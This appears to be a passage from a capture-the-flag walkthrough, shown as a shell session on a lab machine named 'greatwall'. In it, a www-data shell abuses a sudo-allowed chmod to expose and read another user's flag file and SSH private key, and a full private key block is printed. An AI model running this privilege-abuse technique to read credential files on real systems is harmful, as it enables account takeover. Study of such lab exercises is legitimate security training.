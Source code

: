 ```bash
drwxr-xr-x 2 wall wall 4096 May 11 02:41 .ssh
-rwx------ 1 wall wall 1808 May 11 00:25 user.flag
www-data@greatwall:/home/wall$ sudo -u wall /bin/chmod 777 user.flag 
www-data@greatwall:/home/wall$ cat user.flag 
                                                          .'.      
                                                      .':ldd.      
                                                  .,:oddddd:       
                                              .,cdddddddddd        
                                          .,cddddddddddddd:        
                                      .;lddddddddddddddddd.        
                                  .;lddddddddddddddddddddl         
                              .,cddddddddddddccoddddddddd.         
                          .;cdddddddddddddl,.:ddddddddddc          
                     .';lddddddddddddddo;. ,dddddddddddd.          
                 .':lddddddddddddddddc.  'oddddddddddddc           
             .':odddddddddddddddddl,   .cdddddddddddddd.           
         .':oddddddddddddddddddd:.    ;dddddddddddddddo            
      ';lddddddddddddddddddddl,     'odddddddddddddddd'            
       ..,:lodddddddddddddo;.     .cdddddddddddddddddl             
             ..';codddddc.      .:ddddddddddddddddddd.             
                    ..'        ,ddddddddddddddddddddc              
                              ;ldddddddddddddddddddd.              
                                 ..';clddddddddddddc               
                                        ..,:loddddd.               
                             .c:,..           ..',:                
                             'ddddd'                               
                             'dddl.                                
                             ,dd,                                  
                             ;o.                                   
                             .                                     

flag{b088764475fa2a0a962fb9154f41c5b6}
www-data@greatwall:/home/wall$ cd .ssh
www-data@greatwall:/home/wall/.ssh$ ls -la
total 20
drwxr-xr-x 2 wall wall 4096 May 11 02:41 .
drwxrwxrwx 4 wall wall 4096 May 11 02:41 ..
-rw-r--r-- 1 wall wall  568 May 11 02:41 authorized_keys
-rw------- 1 wall wall 2602 May 11 02:41 id_rsa
-rw-r--r-- 1 wall wall  568 May 11 02:41 id_rsa.pub
www-data@greatwall:/home/wall/.ssh$ sudo -u wall /bin/chmod 777 id_rsa
www-data@greatwall:/home/wall/.ssh$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA6yJfWc4tk8pNs4Em7Kpgb7kqMmqqB1wv6RDfLhVbaGkWlhuAPxX8
uGmbAob6/8J8fneffjGnQET7hTNsVUakFl7ra1VSL1u6GSyaIXgyYJl7Vp7TXb9J//Iw+I
T3ry30pss+AKfDwHyV43YZk/xYjP20k8CCFgDzsGT/qNwwjLKziWfxKGFZClyQuyjkoxzL
vIoDBRNO3KkzdYhTz/TZU0mWB1eGV74jX7W0/lddtMyDt7imrzPn0sqMwf4/J6ZpMWMy3y
Ojr4rgBntCEGuOgZi9YLG3gheQw0ieyOR9h/AJntwKkMRd7B9AqfCQlI1dXnjEDWObBwBD
fa4lDoKecxIK0gfiTiSflMxLRqfzIwuRZEL/PUNCz/RiQ2MBicOdUOI2w6ZF9fqoULYCRY
2vBqp+nL83fyLW7aZvKNmhkkAwF7yd5WrFaecv5wpMuI1504IBnmTIwnx+ImswOSzDr6av
+FDyaQ7fBGvgc6JPOqLna5Ewg6j368IHNDmN0q6fAAAFiE3mdfRN5nX0AAAAB3NzaC1yc2
EAAAGBAOsiX1nOLZPKTbOBJuyqYG+5KjJqqgdcL+kQ3y4VW2hpFpYbgD8V/LhpmwKG+v/C
fH53n34xp0BE+4UzbFVGpBZe62tVUi9buhksmiF4MmCZe1ae012/Sf/yMPiE968t9KbLPg
Cnw8B8leN2GZP8WIz9tJPAghYA87Bk/6jcMIyys4ln8ShhWQpckLso5KMcy7yKAwUTTtyp
M3WIU8/02VNJlgdXhle+I1+1tP5XXbTMg7e4pq8z59LKjMH+PyemaTFjMt8jo6+K4AZ7Qh
BrjoGYvWCxt4IXkMNInsjkfYfwCZ7cCpDEXewfQKnwkJSNXV54xA1jmwcAQ32uJQ6CnnMS
CtIH4k4kn5TMS0an8yMLkWRC/z1DQs/0YkNjAYnDnVDiNsOmRfX6qFC2AkWNrwaqfpy/N3
8i1u2mbyjZoZJAMBe8neVqxWnnL+cKTLiNedOCAZ5kyMJ8fiJrMDksw6+mr/hQ8mkO3wRr
4HOiTzqi52uRMIOo9+vCBzQ5jdKunwAAAAMBAAEAAAGAL97PF8r8h3ar7AwyvwMO4CAMAb
iqhhYUIPiQ32J0uiSO9x+BNBbHXUoOx2xwpGpViy/SdlAok1KX/G3UM+ZOWMmZV0BHG6Iq
mJ52gLLmWrlUnXV3ZcIgkC2gH7B+dpk+EkkVhe+h0EntACKWoYTCCG5Mebo7Ibyu4C4nyJ
qPfc2R9LsHI2fyR0RCKQBxz+14Yxmb9MgSCaWe9uI64f8g0a6ND1CX5rwsmns1boSd7MWo
```